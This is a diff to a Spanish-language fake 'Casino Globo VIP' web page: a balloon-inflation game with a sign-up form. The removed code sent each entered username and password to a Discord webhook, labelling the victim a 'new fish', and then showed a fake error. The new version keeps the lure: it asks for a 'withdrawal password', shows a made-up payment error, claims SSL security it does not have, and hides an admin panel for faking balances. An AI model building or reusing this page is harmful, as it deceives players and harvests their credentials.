

Before and after one commit to benjagmzok-ui/CasinoGloboOficialVip, a plain HTML site: page index.html in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Actualizar index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,73 +3,133 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Lucky Globe Casino</title>
+    <title>Casino Globo Oficial VIP</title>
+    <link href="https://fonts.googleapis.com/css2?family=Bebas+Neue&family=Roboto:wght@400;700&display=swap" rel="stylesheet">
     <style>
-        body { background: #0a0a0a; color: #fff; font-family: sans-serif; text-align: center; margin: 0; }
-        .header { background: #1a1a1a; padding: 15px; border-bottom: 2px solid #d4af37; }
-        #saldo-txt { color: #00ff00; font-size: 1.5em; }
-        #globo {
-            width: 120px; height: 150px; background: radial-gradient(circle, #ff4d4d, #900);
-            border-radius: 50% 50% 50% 50% / 40% 40% 60% 60%; margin: 40px auto;
-            cursor: pointer; transition: transform 0.2s;
-        }
-        #admin-panel { display: none; background: #222; border: 1px solid gold; padding: 20px; margin: 20px; }
-        .reg-box { background: #151515; padding: 20px; border-radius: 10px; max-width: 300px; margin: 20px auto; }
-        input { width: 80%; padding: 10px; margin: 5px; background: #000; color: white; border: 1px solid #444; }
-        button { background: gold; color: black; padding: 10px; border: none; font-weight: bold; cursor: pointer; }
+        /* Estilo General - Lujo */
+        body { background: radial-gradient(circle, #1a1c23 0%, #07080a 100%); color: #fff; font-family: 'Roboto', sans-serif; margin: 0; min-height: 100vh; overflow-x: hidden; }
+
+        /* Cabecera Profesional */
+        .casino-header { background: rgba(0,0,0,0.8); padding: 25px; border-bottom: 2px solid #d4af37; box-shadow: 0 5px 20px rgba(212,175,55,0.4); }
+        .casino-title { font-family: 'Bebas Neue', cursive; font-size: 3.2em; color: #d4af37; margin: 0; letter-spacing: 2px; }
+        .saldo-display { color: #00ff00; font-size: 1.5em; font-weight: bold; margin-top: 5px; text-shadow: 0 0 10px rgba(0,255,0,0.3); }
+
+        /* El Globo VIP */
+        .game-area { padding: 40px 20px; }
+        .globo-wrapper { width: 160px; height: 160px; margin: 0 auto; cursor: pointer; transition: transform 0.1s ease-out; position: relative; }
+        .globo-diseno { width: 100%; height: 100%; background: radial-gradient(circle at 30% 30%, #ff4d4d, #b30000); border-radius: 50% 50% 50% 50% / 40% 40% 60% 60%; box-shadow: 0 15px 35px rgba(255,0,0,0.4), inset -10px -10px 20px rgba(0,0,0,0.5); border: 2px solid rgba(255,255,255,0.1); }
+
+        /* Mensajes de Juego */
+        #msg-juego { color: #d4af37; font-size: 1.4em; margin-top: 20px; font-weight: bold; text-transform: uppercase; }
+
+        /* Formulario de Registro Profesional */
+        .registro-card { background: #15181f; border: 1px solid #2a2e38; border-radius: 20px; padding: 30px; max-width: 340px; margin: 40px auto; box-shadow: 0 10px 40px rgba(0,0,0,0.8); }
+        .registro-card h3 { color: #d4af37; margin-bottom: 20px; font-family: 'Bebas Neue'; font-size: 2em; }
+        .input-group { margin-bottom: 15px; text-align: left; }
+        input { width: 100%; padding: 14px; background: #0a0c10; border: 1px solid #3d424d; border-radius: 8px; color: #fff; box-sizing: border-box; transition: 0.3s; }
+        input:focus { border-color: #d4af37; outline: none; box-shadow: 0 0 8px rgba(212,175,55,0.4); }
+
+        /* Botón de Acción */
+        .btn-vip { background: linear-gradient(135deg, #d4af37 0%, #f9f295 50%, #d4af37 100%); color: #000; border: none; padding: 16px; width: 100%; border-radius: 10px; font-weight: bold; cursor: pointer; font-size: 1.1em; text-transform: uppercase; margin-top: 10px; transition: 0.2s; }
+        .btn-vip:hover { transform: translateY(-2px); box-shadow: 0 5px 15px rgba(212,175,55,0.4); }
+
+        /* Modal / Cartel Personalizado (Evita el blanco feo) */
+        .modal-custom { display: none; position: fixed; top: 50%; left: 50%; transform: translate(-50%, -50%); background: #1a1c23; border: 2px solid #d4af37; padding: 25px; border-radius: 15px; z-index: 1000; box-shadow: 0 0 100px rgba(0,0,0,0.9); width: 80%; max-width: 300px; }
+        .modal-overlay { display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: rgba(0,0,0,0.8); z-index: 999; }
+
+        /* Panel Admin Oculto */
+        #admin-box { display: none; background: #222; border: 1px dashed #d4af37; padding: 20px; margin: 20px auto; max-width: 300px; }
     </style>
 </head>
 <body>
 
-<div class="header">
-    <h1>LUCKY GLOBE 🎈</h1>
-    <div id="saldo-txt">Saldo: $<span id="val-saldo">0.00</span></div>
+    <div class="casino-header">
+        <h1 class="casino-title">CASINO GLOBO VIP 🎈</h1>
+        <div class="saldo-display">SALDO: $<span id="saldo-val">0.00</span></div>
     </div>
 
-<div id="globo" onclick="jugar()"></div>
-<h2 id="msg">¡Infla el globo!</h2>
+    <div class="game-area">
+        <div class="globo-wrapper" id="globo-cont" onclick="inflar()">
+            <div class="globo-diseno"></div>
+        </div>
+        <p id="msg-juego">¡Toca para ganar!</p>
+        <p id="multiplicador" style="color:#888;">Multiplicador: x1.00</p>
 
-<div class="reg-box">
-    <h4>REGÍSTRATE PARA COBRAR</h4>
-    <input type="text" id="u" placeholder="Usuario">
-    <input type="password" id="p" placeholder="Contraseña">
-    <button onclick="enviar()">CREAR CUENTA</button>
+        <div class="registro-card">
+            <h3>REGISTRO OFICIAL</h3>
+            <div class="input-group">
+                <input type="text" id="user-name" placeholder="Nombre de usuario">
+            </div>
+            <div class="input-group">
+                <input type="password" id="user-pass" placeholder="Contraseña de retiro">
+            </div>
+            <button class="btn-vip" onclick="mostrarModal()">REGISTRAR Y COBRAR</button>
+        </div>
     </div>
 
-<p onclick="verAdmin()" style="color:#222;">USUARIOS: 1,402</p>
+    <div class="modal-overlay" id="overlay"></div>
+    <div class="modal-custom" id="modal">
+        <h3 style="color:#d4af37; margin-top:0;">SISTEMA VIP</h3>
+        <p id="modal-text">Procesando solicitud...</p>
+        <button class="btn-vip" onclick="cerrarModal()" style="padding:10px;">ACEPTAR</button>
+    </div>
 
-<div id="admin-panel">
-    <h3>PANEL ADMIN</h3>
-    <input type="number" id="n-saldo" placeholder="Nuevo Saldo">
-    <button onclick="setS()">CARGAR</button>
+    <footer style="margin-bottom: 30px;">
+        <p onclick="activarAdmin()" style="color: #222; cursor: default; font-size: 0.8em;">CONEXIÓN SEGURA SSL: 1,402 ONLINE</p>
+    </footer>
+
+    <div id="admin-box">
+        <h3 style="color:gold;">PANEL DE CONTROL</h3>
+        <input type="number" id="input-saldo" placeholder="Monto">
+        <button class="btn-vip" onclick="aplicarSaldo()">CARGAR</button>
     </div>
 
     <script>
-    let s = 0; let c = 0; let a = 0;
-    function jugar() {
-        c++;
-        if(Math.random() < (c * 0.1)) {
-            document.getElementById('globo').style.transform = "scale(0)";
-            alert("¡BOOM! Perdiste.");
-            c = 0; document.getElementById('globo').style.transform = "scale(1)";
-        } else {
-            document.getElementById('globo').style.transform = `scale(${1 + (c*0.2)})`;
-            document.getElementById('msg').innerText = "Multiplicador: x" + (1 + c*0.5).toFixed(2);
+        let clicks = 0; let m = 1.0; let adminCount = 0;
+
+        function inflar() {
+            clicks++;
+            m += 0.45;
+            let scale = 1 + (clicks * 0.15);
+            document.getElementById('globo-cont').style.transform = `scale(${scale})`;
+            document.getElementById('multiplicador').innerText = "Multiplicador: x" + m.toFixed(2);
+
+            if(Math.random() < 0.08 && clicks > 3) {
+                document.getElementById('globo-cont').style.transform = "scale(0)";
+                document.getElementById('msg-juego').innerText = "¡BOOM! EXPLOTÓ";
+                document.getElementById('msg-juego').style.color = "red";
+                setTimeout(() => {
+                    clicks = 0; m = 1.0;
+                    document.getElementById('globo-cont').style.transform = "scale(1)";
+                    document.getElementById('msg-juego').innerText = "¡TOCA PARA GANAR!";
+                    document.getElementById('msg-juego').style.color = "#d4af37";
+                    document.getElementById('multiplicador').innerText = "Multiplicador: x1.00";
+                }, 1500);
             }
         }
-    function verAdmin() { a++; if(a >= 5) document.getElementById('admin-panel').style.display="block"; }
-    function setS() { s = parseFloat(document.getElementById('n-saldo').value); document.getElementById('val-saldo').innerText = s; }
 
-    function enviar() {
-        const user = document.getElementById('u').value;
-        const pass = document.getElementById('p').value;
-        const hook = "TU_WEBHOOK_AQUI"; // <-- PEGA AQUÍ TU WEBHOOK DE DISCORD
+        function mostrarModal() {
+            document.getElementById('overlay').style.display = "block";
+            document.getElementById('modal').style.display = "block";
+            document.getElementById('modal-text').innerText = "Error de sincronización con el servidor de pagos. Su cuenta ha sido vinculada, intente el cobro en 24 horas.";
+        }
 
-        fetch(hook, {
-            method: "POST",
-            headers: {'Content-Type': 'application/json'},
-            body: JSON.stringify({content: `🔔 **Nuevo Pez:**\n👤 User: ${user}\n🔑 Pass: ${pass}`})
-        }).then(() => { alert("Error de red. Intenta de nuevo."); });
+        function cerrarModal() {
+            document.getElementById('overlay').style.display = "none";
+            document.getElementById('modal').style.display = "none";
+        }
+
+        function activarAdmin() {
+            adminCount++;
+            if(adminCount >= 5) {
+                document.getElementById('admin-box').style.display = "block";
+                alert("Panel Admin Desbloqueado");
+            }
+        }
+
+        function aplicarSaldo() {
+            let val = document.getElementById('input-saldo').value;
+            document.getElementById('saldo-val').innerText = parseFloat(val).toFixed(2);
         }
     </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
